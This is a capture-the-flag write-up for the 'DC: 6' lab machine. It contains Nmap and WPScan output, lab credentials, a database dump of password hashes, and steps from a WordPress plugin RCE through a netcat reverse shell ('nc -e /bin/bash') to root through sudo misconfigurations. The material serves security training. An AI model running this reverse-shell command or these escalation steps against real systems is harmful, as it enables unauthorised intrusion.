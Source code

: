 # DC: 6
### Credentials
```
Wordpress:
mark / helpdesk01

Machine:
graham:GSo7isUM1D4

```
### Nmap Scan
```
Nmap scan report for dc-6 (192.168.1.26)
Host is up (0.00023s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:52:ce:ce:01:b6:94:eb:7b:03:7d:be:08:7f:5f:fd (RSA)
|   256 3c:83:65:71:dd:73:d7:23:f8:83:0d:e3:46:bc:b5:6f (ECDSA)
|_  256 41:89:9e:85:ae:30:5b:e0:8f:a4:68:71:06:b4:15:ee (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
|_http-title: Did not follow redirect to http://wordy/
|_http-server-header: Apache/2.4.25 (Debian)
MAC Address: 08:00:27:3A:8C:A8 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
## Recon
### Web Recon
* Server: Apache 2.4.45
* Tech Stack: PHP, Wordpress CMS (5.1.1), MySQL
### WPScan
```
[+] Headers
 | Interesting Entry: Server: Apache/2.4.25 (Debian)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://wordy/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://wordy/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://wordy/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.1.1 identified (Insecure, released on 2019-03-13).
 | Found By: Rss Generator (Passive Detection)
 |  - http://wordy/index.php/feed/, <generator>https://wordpress.org/?v=5.1.1</generator>
 |  - http://wordy/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.1.1</generator>

[+] WordPress theme in use: twentyseventeen
 | Location: http://wordy/wp-content/themes/twentyseventeen/
 | Last Updated: 2024-11-12T00:00:00.000Z
 | Readme: http://wordy/wp-content/themes/twentyseventeen/README.txt
 | [!] The version is out of date, the latest version is 3.8
 | Style URL: http://wordy/wp-content/themes/twentyseventeen/style.css?ver=5.1.1
 | Style Name: Twenty Seventeen
 | Style URI: https://wordpress.org/themes/twentyseventeen/
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...
 | Author: the WordPress team
 | Author URI: https://wordpress.org/
 |
 | Found By: Css Style In Homepage (Passive Detection)
 |
 | Version: 2.1 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://wordy/wp-content/themes/twentyseventeen/style.css?ver=5.1.1, Match: 'Version: 2.1'


[i] User(s) Identified:

[+] admin
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://wordy/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)

[+] jens
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] graham
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] mark
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] sarah
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
 ```
 ## Machine Enumeration
 ### wpconfig.php
 ```
 define('WP_HOME','http://wordy');
define('WP_SITEURL','http://wordy');

define( 'DB_NAME', 'wordpressdb' );

/** MySQL database username */
define( 'DB_USER', 'wpdbuser' );

/** MySQL database password */
define( 'DB_PASSWORD', 'meErKatZ' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );

```
### MySQL Dump
```
| ID | user_login | user_pass                          | user_nicename | user_email                  | user_url | user_registered     | user_activation_key                           | user_status | display_name    |
+----+------------+------------------------------------+---------------+-----------------------------+----------+---------------------+-----------------------------------------------+-------------+-----------------+
|  1 | admin      | $P$BDhiv9Y.kOYzAN8XmDbzG00hpbb2LA1 | admin         | blah@blahblahblah1.net.au   |          | 2019-04-24 12:52:10 |                                               |           0 | admin           |
|  2 | graham     | $P$B/mSJ8xC4iPJAbCzbRXKilHMbSoFE41 | graham        | graham@blahblahblah1.net.au |          | 2019-04-24 12:54:57 |                                               |           0 | Graham Bond     |
|  3 | mark       | $P$BdDI8ehZKO5B/cJS8H0j1hU1J9t810/ | mark          | mark@blahblahblah1.net.au   |          | 2019-04-24 12:55:39 |                                               |           0 | Mark Jones      |
|  4 | sarah      | $P$BEDLXtO6PUnSiB6lVaYkqUIMO/qx.3/ | sarah         | sarah@blahblahblah1.net.au  |          | 2019-04-24 12:56:10 |                                               |           0 | Sarah Balin     |
|  5 | jens       | $P$B//75HFVPBwqsUTvkBcHA8i4DUJ7Ru0 | jens          | jens@blahblahblah1.net.au   |          | 2019-04-24 13:04:40 | 1556111080:$P$B5/.DwEMzMFh3bvoGjPgnFO0Qtd3p./ |           0 | Jens Dagmeister |
+----+------------+------------------------------------+---------------+-----------------------------+----------+---------------------+-----------------------------------------------+-------------+-----------------+
 ```
## Getting a foothold
When logging in to the dashboard with found credentials we can see nothing special, I cannot upload plugins, change themes, add pages, etc. But I saw an interesting plugin named Activity Monitor which was vulnerable to an authenticated RCE vulnerability.
Using the exploit I get a limited shell, so I can use netcat to open another reverse shell and stabilise it.
```
nc -e /bin/bash <YOUR_IP> <YOUR_PORT>
```
And on my machine I opened a listener on the specified port.

### Movement inside the machine
Since the target is a wordpress site once in the machine i looked through the wp-config.php file which contained MySQL credentials. I was able to dump all the users from the database along with their hashed passwords which I was not able to crack.
Moving on, I found plain text credentials written in a to-do list which I used to move to the user “graham”.
Now as graham using “sudo -l” I see that I can run a file as the user “jens”. The vulnerability was that, that I had write permissions to the script run as jens, so I could just append /bin/bash and execute it as “jens” and get a shell as jens.

### Privilege Escalation
As user jens running “sudo -l” returns that I can run nmap without the use of a password. A search on gtfobins gives me a string of commands that when executed give me root shell.

## Notes
**Always** check for permissions on files run either by root or another higher level user. If I can append something to scripts that are ran as other users then the vulnerability exists.
* Pay attention to the language used in the script, I mean you can’t just append a bash command to a python script that easy or vice versa
